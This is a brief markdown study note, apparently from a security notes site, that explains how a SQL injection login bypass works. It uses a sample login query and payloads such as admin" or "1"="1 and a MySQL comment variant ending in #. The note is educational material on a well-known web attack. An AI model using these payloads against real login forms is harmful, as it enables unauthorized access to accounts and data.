 ```yaml
---
tags:
  - security
  - sqli
  - web
title: Classic Injection Bypass
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


On Login Page the value for username and password is controlled by the user

````sql
-- Backend Query Sample
SELECT * 
FROM login 
WHERE username="$USERNAME" AND password="$PASSWORD"; 
````

We can enter the values as `admin" or "1"="1` which forms valid SQL query
1=1 is always true and the OR clause nullifies the WHERE statement

````sql
SELECT * 
FROM login 
WHERE username="admin" OR "1"="1" AND password="admin" OR "1"="1";
````

`#` is considered as comment in MySQL. So second half off query is ignored

````sql
SELECT * 
FROM login 
WHERE username="admin" OR 1=1#" and password="admin";
````

Depending on DB being used different types of comments can be used
For string values " or ' will be used depending on DB
If the input field only takes numbers then `1' or 1=1#` can be used
Not all websites is going to produce error so play around with ', and, or (True and False) statements are check if desired output is produced

